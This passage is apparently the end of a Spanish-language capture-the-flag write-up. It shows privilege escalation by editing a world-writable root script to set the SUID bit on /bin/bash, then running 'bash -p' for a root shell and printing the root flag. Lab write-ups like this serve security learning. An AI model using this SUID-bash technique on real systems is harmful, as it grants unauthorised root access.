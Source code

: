 ```
-rwxrw-rw- 1 root root   82 Aug 20 18:18 echo.sh
```

Vemos que podemos editarlo, por lo que haremos lo siguiente.

```shell
nano echo.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y esperamos, una vez que se haya ejecutado comprobaremos que funciono.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que ha funcionado por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Con ejecutar eso ya seriamos `root` por lo que leeremos la flag.

> root.txt

```
640c89bbfa2f70a4038fd570c65d6dcc
```
